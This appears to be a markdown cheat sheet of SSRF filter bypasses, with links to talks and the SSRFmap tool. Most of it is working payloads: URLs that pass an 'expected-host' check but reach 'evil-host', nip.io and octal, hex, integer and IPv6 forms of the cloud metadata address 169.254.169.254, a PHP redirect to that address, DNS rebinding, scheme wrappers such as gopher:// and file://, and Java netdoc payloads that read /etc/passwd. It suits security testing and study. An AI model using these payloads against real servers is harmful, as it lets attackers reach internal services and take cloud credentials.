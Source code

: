## Refernces -

- SSRF vulns & where to find them by **Detectify** - https://labs.detectify.com/2022/09/23/ssrf-vulns-and-where-to-find-them/
- SSRF attacks via PDF generators by **Nahamsec & Cody Brocious** - https://docs.google.com/presentation/u/0/d/1JdIjHHPsFSgLbaJcHmMkE904jmwPM4xdhEuwhy2ebvo/edit
- A new era of SSRF by **Orange Tsai** - https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf
## Tools -

- SSRFmap - https://github.com/swisskyrepo/SSRFmap

## Bypasses -

#### URL fragment 

Use the `#` character to indicate a URL fragment. For example:

```http
https://evil-host#expected-host
```

#### Embed credentials in a URL before the hostname, using the @ character. For example:

```http
https://expected-host:fakepassword@evil-host
```
#### Leverage DNS naming hierarchy

```http
https://expected-host.evil-host
```
#### Comply to regex used for whitelist by providing the req url as uri

Here expected host is present and thereby it satisfies the whitelist & also is treated as directory portion of url.

```http
http://localhost/expectedhost.com
```

#### Use Hostnames Instead of IPs

Sometimes, the developers just banned the use of 169.254.169.254 directly. In that case, we can simply use hostnames that resolve to the same IP address. 

> Nip.io allows simple wildcard DNS for any IP address

here are some examples. All of these resolve to 169.254.169.254.

169.254.169.254.nip.io
169-254-169-254.nip.io
a9fea9fe.nip.io (hexadecimal IP notation)
Something.google.com.169.254.169.254.nip.io

#### HTTP Redirects
Sometimes, bypassing SSRF protection is as easy as using an HTTP redirect. 

Let’s say we can make a request to customdomain.com, but not 169.254.169.254. 

We can host a simple script on customdomain.com to 302 redirect to 169.254.169.254. If the vulnerable endpoint follows redirects but doesn’t check them, we have SSRF! 

Here’s a simple PHP script to perform the redirect.

```php
<?php header(“Location: http://169.254.169.254/”) ?>
```

#### DNS Rebinding

Many applications attempt to thwart SSRF attempts with a code pattern that looks like this:

```php
func fetch_if_allowed(url string){
    if ip_is_blocked(resolve($url)){
        return false
    } else {
        fetch($url)
    }
}
```

This code is vulnerable to a form of TOCTOU (time-of-check, time-of-use) vulnerability called DNS rebinding. An attacker can set up a DNS server that responds with two different IP addresses on alternating requests, one is allowed through the ip_is_blocked() function, and the other is not.

> Taviso's rbndr - https://github.com/taviso/rbndr

In this case, we could set up a DNS rebinding service such as Taviso’s rbndr to resolve to 1.1.1.1 every second time, and 169.254.169.254 every other time. When the domain is resolved the first time, the application sees that it resolves to 1.1.1.1, and allows the code to flow into the else statement, where the domain is resolved again – this time to 169.254.169.254. 🎉

#### Non-Standard IP Notations
Sometimes, specific IP addresses are blocked, such as 169.254.169.254. In this case, we may be able to bypass it by simply using different IP notation. For example, all of these will be interpreted as 169.254.169.254. 

- 025177524776 (octal)
- 0xa9fea9fe (hexadecimal)
- 2852039166 (integer)
- ::ffff:a9fe:a9fe (IPv6)

> Use thsi website to convert IP address to all the 4 types of notation - https://www.abuseipdb.com/tools/ip-address-converter

#### SSRF Wrappers / URL Schema

The following wrappers are potentiall expected URL schema wrappers found within PHP environments (for some schema curl-wrappers would need to be enabled).

```http
gopher://
file://
fd://
expect://
ogg://
tftp://
dict://
ftp://
ssh2://
file://
http://
https://
imap://
pop3://
mailto://
smtp://
telnet://
```

In case of **Java environments**, use these payloads

```http
netdoc:///etc/passwd
netdoc:///etc/hosts
jar:proto-schema://blah!/
jar:http://localhost!/
jar:http://127.0.0.1!/
jar:http://0.0.0.0!/
jar:ftp://local-domain.com!/
```

#### Enclosed Alphanumeric -

```http
http://⑯⑨。②⑤④。⑯⑨｡②⑤④/
http://⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/
```
